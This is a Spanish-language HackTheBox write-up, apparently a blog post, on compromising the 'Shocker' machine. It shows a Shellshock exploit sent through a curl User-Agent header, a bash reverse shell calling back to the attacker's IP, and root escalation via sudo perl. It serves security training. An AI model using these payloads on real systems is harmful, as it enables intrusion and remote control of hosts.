 ```yaml
---
layout: single
title: Writeup HTB - Maquina Shocker
comments: true
excerpt: "La maquina Shocker es una maquina linux - Easy, comenzamos escanendo directorios de una pagina web, encontramos el directorio cgi-bin donde logramos encontrar un script llamado user.sh, dicho script puede ser explotable a la vulnerabilidad ShellShok que nos permite ejecutar comandos como el usuario Shelly. Por ultimo logramos escalar privilegios como root abusando de los permisos de sudo con el binario perl."
date: 2022-02-05
classes: wide
header:
  teaser: /assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - OSCP  
  - Hacking
  - xxe
  - Easy
---
```


# HTB - Shocker
<p align="center">
<img src="/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled.png">
</p>

## Resumen
<div style="text-align: justify">
La maquina Shocker es una maquina linux - Easy, comenzamos escanendo directorios de una pagina web, encontramos el directorio cgi-bin donde logramos encontrar un script llamado user.sh, dicho script puede ser explotable a la vulnerabilidad ShellShok que nos permite ejecutar comandos como el usuario Shelly. Por ultimo logramos escalar privilegios como root abusando de los permisos de sudo con el binario perl.
</div>

## Scan Nmap

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%201.png)

## Pagina Web - Port 80

lo primero que hacemos es revisar la pagina web de esta maquina, pero solo encontramos un imagen divertida con un mensaje de Don’t Bug Me!

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%202.png)

realizamos un escaneo de directorios y solo encontramos el directorio cgi-bin, dicho directorio se utiliza para alojar programas que son utilizados para ejecutar tareas en el servidor.

```bash
Shocker # ❯ dirsearch -u http://10.129.1.175 -w /usr/share/wordlists/dirb/common.txt -f -e php,html,js,txt,save,bak -t 200
```

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%203.png)

Por lo tanto hagamos un escaneo a dicho directorio con las siguientes extensiones

```bash
Shocker # ❯ dirsearch -u http://10.129.1.175/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -f -e sh,cgi,pl -t 200
```

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%204.png)

probamos que arroja dicho script user.sh

```bash
Shocker # ❯ curl -s http://10.129.1.175/cgi-bin/user.sh                  
Content-Type: text/plain

Just an uptime test script

 11:42:43 up  2:25,  0 users,  load average: 0.00, 0.00, 0.00
```

### Explotacion vulnerabilidad Shellshock

Primero vamos a aclarar que el nombre oficial de esta vulnerabilidad es [GNU Bash Remote Code Execution Vulnerability](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271) (CVE-2014-6271) y está considerada como **grave**, tal y como sucedió con [Heartbleed](https://www.welivesecurity.com/la-es/2014/04/09/5-cosas-debes-saber-sobre-heartbleed/), ya que permitiría la **ejecución remota de código** y así obtener el control de un ordenador.

El problema con esta vulnerabilidad se viene produciendo porque Bash permite declarar funciones (algo que tampoco es extraño y entra dentro de lo normal), pero estas **no se validan de forma correcta** cuando se almacenan en una variable. En otras palabras: Bash se pasa de la raya, extralimita sus funciones y sigue ejecutando código a pesar de haber finalizado de procesar la función.

Asi pues explotamos dicha vulnerabilidad de la siguiente manera

```bash
curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'id'" http://10.129.1.175/cgi-bin/user.sh
```

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%205.png)

### Reverse shell - User shelly

para obtener una reverse shell podemos un puerto 443 en escucha con netcat

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%206.png)

ejecutamos este payload

```bash
Shocker # ❯ curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'" http://10.129.1.175/cgi-bin/user.sh
```

y logramos conectarnos a una reverse shell con el usuario shelly

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%207.png)

## Escalacion de privilegios - User root

si revisamos los permisos de sudo

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
```

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%208.png)

logramos escalar privilegios como root de la siguiente manera

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%209.png)